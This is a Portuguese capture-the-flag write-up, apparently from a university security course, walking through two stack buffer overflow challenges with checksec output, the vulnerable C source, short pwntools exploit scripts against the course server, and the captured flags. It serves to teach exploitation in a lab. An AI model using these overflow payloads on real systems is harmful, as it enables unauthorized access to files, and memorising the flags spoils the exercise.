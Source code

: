 ## CTF 5
### CTF 5 Desafio 1
#### Primeiro passo - Checksec
Ao corrermos o checksec no programa, podemos descobrir várias coisas:
```
❯ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments 
```
* O programa está compilado para uma arquitetura de 32 bits e é little endian
* Não tem a proteção de *RELRO*
* Existem segmentos na memória com permissões de read, write e execute
* O ASLR está desativado
* O PIE está desativado
* NX está desativado
* Não tem *canary*

#### Segundo passo - Análise do código
```cpp
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```
Ao analisarmos o código, podemos ver que o programa lê 40 *chars* (
`scanf("%40s", &buffer);`)
para um *buffer* de 32 *chars*, o que nos permite fazer um *buffer overflow* e alterar o endereço de retorno da função ``main()``. 

Como o utilizador controla a entrada, ao escrever flag.txt após 32 caracteres, podemos facilmente sobrescrever a variável meme_file e fazer com que o programa leia o ficheiro flag.txt e imprima o seu conteúdo.

No programa python disponibilizado, na zona em que injetamos o conteúdo para o servidor, bastou escrever 32 caracteres seguidos do nome do ficheiro que queremos ler.

```python
r.sendline(b'A'*32+b'flag.txt\0')
```
#### Exploit
```python
from pwn import *

DEBUG = False

r = remote('ctf-fsi.fe.up.pt', 4003)

r.sendline(b'A'*32+b'flag.txt\0')

r.interactive()
```
Ao executar conseguimos ter acesso ao conteúdo do ficheiro flag.txt e à flag do desafio, flag{a96d05c11752a85ff9f172636ea1967a}.

![Flag](./images/flag5D1.png)

### CTF 5 Desafio 2
Este desafio é bastante similar ao anterior, só que, entre a variável do nome do ficheiro e o buffer temos um valor inteiro, que precisa de ser igual a ``0xfefc2324`` para ler a flag.

O único cuidado especial a ter é passar o valor do inteiro byte a byte de forma *Little Endian*, ou seja, ler o valor de trás para a frente.

Assim, se passarmos a string ``io.sendline(b'A'*32 + b"\x24\x23\xfc\xfe" + b"flag.txt\0")`` alcançamos a *flag*

```flag{bb0e0ad81a5d4378e34817e1e73e5381}```


![Flag](./images/flag5D2.png)
